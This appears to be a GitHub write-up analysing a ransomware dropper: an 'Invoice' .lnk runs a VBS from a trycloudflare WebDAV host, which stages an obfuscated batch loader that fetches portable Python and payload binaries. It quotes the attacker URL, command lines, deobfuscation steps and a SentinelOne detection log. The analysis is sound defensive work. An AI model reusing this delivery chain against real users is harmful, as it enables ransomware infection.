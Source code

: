 Hey Together!

Today we got an interesting zip file containing only a `.lnk` file named "Invoice" that triggered the WScript host with the path `\ni-olympic-forests-invoice.trycloudflare.com@SSL\DavWWWRoot\tat.vbs` to execute.
Sadly, we don't have the original file anymore. We use disposable VMs as workstations that get deleted in such cases.

I have sent as many files as I could get to ensure you can take a deep dive into it. Sadly, I did not get deeper into the Python `load.py` and the binaries that do all the final magic.

_TLDR_  
This runs a VBS script triggering a batch script, which then plants a portable Python 3.12 and some binary files with `load.py` to seemingly encrypt files and request BTC to decrypt them.  
Big questions were raised by this:

- Why is it allowed to run a CMD -C from a URL?
- How can WScript be triggered from a WebDAV?
- What does `load.py` do with the other binaries?

_Longer explanation:_  
When opening the path in the editor, we can see the contents!

The VBS spawns a new CMD with the -C option to a HTTPS path (why the heck should this be allowed?) to stage its loader (`voi.bat`).

This is heavily obfuscated, but with some smart ideas from ChatGPT to replace all variables (`%.*%`) with `[VAR]`, I found out it's just noise added to it.

Example:

```
@[VAR]e[VAR]c[VAR]h[VAR]o[VAR] [VAR]o[VAR]f[VAR]f[VAR]
s[VAR]e[VAR]t[VAR]l[VAR]o[VAR]c[VAR]a[VAR]l[VAR]
```

Converts to

```
@echo off
setlocal
```

Because the vars do not resolve to anything, it's nothing more than noise added to the script!

With that, I searched for all the variables that are needed in the script to download and save stuff, telling ChatGPT, "Please remove all except these!"

```
antivirusDetected
runCommand1
runCommand2
runCommand3
runCommand4
zipUrl
retires
zipUrl
destination
ERRORLEVEL
txtUrl
txtDestination
```

Out came my final deobfuscated `voi.bat`, going deeper into the rabbit hole.

In our case, the "antivirusDetected" wasn't triggered, and because of this, I got my hands on the `bab.zip` file, which contained a portable Python + `load.py` and some bin files.

Because of the deobfuscated `voi.bat`, I knew the following commands would get triggered:

```
set "runCommand1=load.py cc.bin"
set "runCommand2=load.py vv.bin"
set "runCommand3=load.py pay.bin"
set "runCommand4=load.py payload.bin"
...
"\python.exe" %runCommand1%
...
"\python.exe" %runCommand2%
...
"\python.exe" %runCommand3%
...
"\python.exe" %runCommand4%
```

I tried some more and fed these back to ChatGPT, but sadly, didn't get much further...

All it found was that the `cc.bin` contained the function "delete" and `pay.bin` contains "btc" somewhere.

# Now it's your turn :D

I would love to see you get deeper into it!

All payload files are attached in the encrypted `.7z` (password: "plzsubscribe"), including my deobfuscated file from ChatGPT.  
I added a screenshot of our XDR and why it got remediated and killed (Thread Indicators) as well.  
Without its help, we probably would have run into a ransomware attack!

# Sentinel One Output

```
Threat Info:
Name: wscript.exe (CLI 1242)
URL: _redacted_
Path: \Device\HarddiskVolume3\Windows\System32\wscript.exe (CLI 1242)
Command Line Arguments: "\\ni-olympic-forests-invoice.trycloudflare.com@SSL\DavWWWRoot\tat.vbs"
Process User: _redacted_
Signature Verification: NotSigned
Originating Process: explorer.exe
SHA1: 12427b31dfda0fd6d07cd2792eab5863c8da0a0d
SHA256: b6359dcb4e55310ff3471ee180141cad9333b51e03c2da8c57afb55969be0047
MD5: 3c979f9b452df16a1e2d7b1d56b39902
Initiated By: Agent Policy
Engine: Anti Exploitation / Fileless
Detection type: Dynamic
Classification: Ransomware
Storyline: 8D95C5F34630CCAB
Threat Id: 2086152210643011641
Endpoint Info:
Computer Name: _redacted_
Console Connectivity: Offline
Full Disk Scan: Completed at Nov 15, 2024 13:13:32
Pending reboot: No
Network Status: Disconnected
Scope: \*_redacted_
OS Version: Windows 10 Enterprise LTSC 19044
Agent Version: 24.1.4.257
Policy: protect
UUID: _redacted_
Domain: _redacted_
IP v4 Address: _redacted_
IP v6 Address: _redacted_
Console Visible IP Address: _redacted_
Subscription Time: Nov 15, 2024 13:13:32
```

